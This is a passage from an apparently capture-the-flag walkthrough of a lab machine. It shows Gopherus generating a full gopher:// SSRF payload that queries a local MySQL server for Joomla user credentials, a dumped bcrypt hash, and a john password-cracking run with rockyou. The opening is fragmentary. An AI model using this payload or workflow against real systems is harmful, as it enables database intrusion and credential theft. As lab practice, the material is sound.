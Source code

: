 ```bash

```
for the data will be 
```bash
❯ gopherus --exploit mysql


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$

For making it work username should not be password protected!!!

Give MySQL username: goblin
Give query to execute: USE joomla; select name,username,email,password from joomla_users;

Your gopher link is ready to do SSRF : 

gopher://127.0.0.1:3306/_%a5%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%67%6f%62%6c%69%6e%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%43%00%00%00%03%55%53%45%20%6a%6f%6f%6d%6c%61%3b%20%73%65%6c%65%63%74%20%6e%61%6d%65%2c%75%73%65%72%6e%61%6d%65%2c%65%6d%61%69%6c%2c%70%61%73%73%77%6f%72%64%20%66%72%6f%6d%20%6a%6f%6f%6d%6c%61%5f%75%73%65%72%73%3b%01%00%00%00%01

```
we found the password and the user for this database but we found a password hashed let's try to Bruteforce it with john 


```bash
�n Super User site_adminsite_admin@nagini.hogwarts<$2y$10$cmQ.akn2au104AhR4.YJBOC5W13gyV21D/bkoTmbWWqFWjzEW7vay�"
```
how to bruteForce it using john 



```bash
❯ john -w:rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:06:48 0,23% (ETA: 2023-04-26 21:39) 0g/s 98.89p/s 98.89c/s 98.89C/s abygail..DYLAN
Session aborted
```
